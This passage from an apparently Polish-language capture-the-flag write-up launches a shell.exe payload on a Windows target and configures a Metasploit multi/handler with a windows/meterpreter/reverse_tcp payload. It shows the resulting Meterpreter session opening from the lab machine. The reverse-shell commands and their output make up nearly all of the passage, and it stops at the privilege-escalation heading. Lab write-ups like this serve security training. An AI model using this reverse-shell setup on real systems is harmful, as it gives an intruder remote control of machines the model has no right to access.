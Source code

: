  ```
-a---         6/25/2023   6:34 PM      73802 shell.exe                                                              
-a---        10/25/2019  11:22 PM         32 user.txt                                                               
                                                                                                                    
                                                                                                                    
PS C:\Users\bruce\Desktop> set lhost 10.8.78.81                                                                     
PS C:\Users\bruce\Desktop> Start-Process "shell.exe" 
 ``` 

 W innej zakładce terminala uruchamiam aplikację `Metasploit` poleceniem `msfconsol`. 
 Następnie wykonuję polecenia w `Metasploit`:
 ```
msf6 > use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specifi
                                     ed)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.8.78.81
lhost => 10.8.78.81
msf6 exploit(multi/handler) > set lport 5555
lport => 5555
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.78.81:5555 
[*] Sending stage (175686 bytes) to 10.10.61.255
[*] Meterpreter session 1 opened (10.8.78.81:5555 -> 10.10.61.255:49488) at 2023-06-25 11:06:31 -0400
 ```
 ## Task 3  Privilege Escalation
